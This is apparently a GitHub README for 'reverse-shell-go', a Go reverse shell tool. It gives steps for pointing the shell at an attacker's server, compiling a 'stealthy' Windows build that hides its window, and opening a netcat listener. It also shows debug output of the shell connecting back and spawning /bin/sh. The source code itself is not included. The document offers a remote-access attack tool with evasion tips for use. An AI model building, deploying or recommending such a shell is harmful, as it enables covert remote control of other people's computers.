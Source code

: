# reverse-shell-go

### Simple reverse shell written in go

To use: 
- Set the host address near the top to your server. `const host = "127.0.0.1:1234`
- Build using `go build main.go`
- Stealthy version `GOOS=windows go build -ldflags="-s -w -H=windowsgui" main.go` (Windows target, build from macos)
- Start listening on the server using `netcat -l -p 8080`

Example debug output
```
github.com/orf1/reverse-shell-go
attempting to establish tcp connection with server
dial tcp 127.0.0.1:8080: connect: connection refused
attempting to establish tcp connection with server
connection established
detecting operating system
detected mac or linux, using /bin/sh
binding standard interfaces to connection
shell opened
```
<img width="572" alt="Screen Shot 2022-08-08 at 2 47 48 PM" src="https://user-images.githubusercontent.com/39539212/183520624-33592bda-2509-435b-8eb3-a5b04f590eb7.png">
